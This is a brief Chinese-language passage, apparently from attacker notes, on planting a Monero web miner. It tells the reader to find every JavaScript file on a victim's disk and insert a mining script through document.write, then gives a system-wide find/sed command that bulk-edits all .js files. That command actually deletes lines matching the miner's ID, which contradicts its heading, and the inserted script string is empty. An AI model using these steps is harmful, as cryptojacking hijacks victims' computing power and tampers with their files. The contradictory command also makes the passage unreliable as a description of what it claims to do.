 ### Monero JavaScript网页挖矿

在Victim全盘查找js文件，并插入网页挖矿JS脚本document.write('');


#### 批量替换命令

~~~
find / -name '*.js' | xargs sed -i 's/^document.*OMINEId.*e02cf4ce91284dab9bc3fc4cc2a65e28.*$//g' 
~~~
